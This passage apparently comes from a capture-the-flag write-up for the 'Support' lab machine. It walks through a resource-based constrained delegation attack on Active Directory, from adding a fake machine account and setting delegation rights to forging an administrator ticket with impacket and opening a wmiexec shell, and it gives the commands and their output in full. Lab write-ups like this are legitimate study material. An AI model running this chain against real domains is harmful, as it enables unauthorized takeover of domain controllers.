 Next, we create an account with the name fake01 and password 12345

```bash
*Evil-WinRM* PS C:\ProgramData> New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = fake01$
Verbose: [+] Distinguished Name = CN=fake01,CN=Computers,DC=support,DC=htb
[+] Machine account fake01 added
```

Now we get the sid of the account we created:

```bash
*Evil-WinRM* PS C:\ProgramData> Get-DomainComputer fake01 -Properties objectsid

objectsid
---------
S-1-5-21-1677581083-3380853377-188903654-5101
```

Now with the sid we can continue with the following steps:

```bash
Evil-WinRM* PS C:\ProgramData> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5101)"
*Evil-WinRM* PS C:\ProgramData> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\ProgramData> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\ProgramData> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

At the end point, rather than playing with rubeus to get the ticket, we can do it with impacket. 

```bash
$ impacket-getST support.htb/fake01:123456 -dc-ip 10.10.11.174 -impersonate administrator -spn www/dc.support.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

With the ticket we can connect with wmieexec and become Administrator:

```bash
$ export KRB5CCNAME=administrator.ccache             
                                                                                                                    
$ impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
support\administrator

C:\>cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
e0****************************18
```
